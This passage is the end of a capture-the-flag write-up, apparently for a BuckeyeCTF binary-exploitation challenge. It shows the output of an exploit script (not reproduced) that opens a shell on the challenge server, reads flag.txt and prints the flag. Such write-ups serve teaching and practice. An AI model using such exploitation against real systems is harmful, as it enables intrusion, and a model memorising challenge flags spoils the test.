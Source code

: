Running it on the remote server
```
$ python3 duckexploit.py
[+] Opening connection to pwn.chall.pwnoh.io on port 13386: Done
[*] Switching to interactive mode
$ ls
chall
flag.txt
$ cat flag.txt
buckeye{if_it_quacks_like_a_duck_it_might_not_be_a_duck}
$ id
uid=1000 gid=1000 groups=1000
$
```

We get a shell!

Flag: ``buckeye{if_it_quacks_like_a_duck_it_might_not_be_a_duck}``

Unfortunately, this duck did not protecc the stacc so well. Still an adorable birb though so no hate.
